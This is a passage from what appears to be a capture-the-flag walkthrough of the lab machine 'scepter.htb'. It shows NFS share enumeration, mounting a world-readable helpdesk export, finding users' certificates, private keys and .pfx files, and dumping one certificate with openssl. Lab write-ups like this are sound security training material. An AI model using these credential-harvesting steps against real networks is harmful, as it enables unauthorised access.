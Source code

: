 
The most interesting find here is port `2049`, looking at the service & script scan we see that it's `2049/tcp  open  mountd        1-3 (RPC #100005)` indicating that something is mounted on NFS.
# Foothold
Let's start off by looking at the mount.
```bash
showmount -e scepter.htb

Export list for scepter.htb:
/helpdesk (everyone)
```

Interesting, we have a helpdesk share, let's mount it and take a look inside.
```bash
sudo mount -t nfs scepter.htb:/helpdesk /mnt/nfs_share

ls -lash /mnt/nfs_share

total 25K
 512 drwx------ 2 4294967294 4294967294   64 Nov  2 14:02 .
4.0K drwxr-xr-x 1 root       root       4.0K Apr 20 10:41 ..
4.0K -rwx------ 1 4294967294 4294967294 2.5K Nov  2 14:01 baker.crt
4.0K -rwx------ 1 4294967294 4294967294 2.0K Nov  2 14:01 baker.key
4.0K -rwx------ 1 4294967294 4294967294 3.3K Nov  2 14:01 clark.pfx
4.0K -rwx------ 1 4294967294 4294967294 3.3K Nov  2 14:01 lewis.pfx
4.0K -rwx------ 1 4294967294 4294967294 3.3K Nov  2 14:02 scott.pfx
```

Looks like we have a certificate and a key for `baker` and Personal Information Exchange(`pfx`) files for `clark`,`lewis`,and `scott`.

Let's take a look at `baker`'s files first.
```bash
openssl x509 -in baker.crt -text -noout

Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            62:00:00:00:32:e1:a5:c3:91:51:31:09:7b:00:00:00:00:00:32
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: DC = htb, DC = scepter, CN = scepter-DC01-CA
        Validity
            Not Before: Nov  2 01:13:46 2024 GMT
            Not After : Nov  2 01:13:46 2025 GMT
        Subject: DC = htb, DC = scepter, CN = Users, CN = d.baker, emailAddress = d.baker@scepter.htb
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                Public-Key: (2048 bit)
                Modulus:
                    00:a5:83:8f:1c:7b:70:f0:2b:08:21:2e:a6:16:4a:
                    08:f0:2b:43:e4:8e:13:bb:7e:89:0d:23:9b:76:76:
                    19:91:9d:5e:29:6f:d5:89:fd:6b:5c:bf:4b:1f:29:
                    0a:84:96:d3:1a:e2:6c:10:34:87:2a:de:e6:62:cd:
                    2b:e3:d2:54:dc:7a:d6:d9:92:28:b2:e2:21:4a:ad:
                    b9:81:ca:a5:ef:7b:67:23:b4:68:09:cf:27:eb:35:
                    19:05:06:a2:10:96:db:5c:08:5c:28:9d:53:91:aa:
                    dc:dd:95:f7:53:d6:87:a0:a9:24:94:c2:61:c8:7d:
                    35:0f:fd:f1:bc:6b:0c:e9:76:c2:14:76:f2:dc:79:
                    a7:c2:8b:8a:a6:1f:7f:6b:b7:b6:5c:fc:a7:1e:76:
                    2f:c1:b5:37:3c:e9:09:3e:6f:8f:e3:92:a8:e6:bd:
                    7c:56:e1:0b:74:72:41:18:e5:71:f7:f6:8e:c6:a4:
                    3d:c1:4d:51:aa:2e:0e:ef:5d:5d:58:07:a7:af:cc:
                    1f:1b:42:14:20:49:b6:86:63:ca:01:f0:09:c3:e7:
```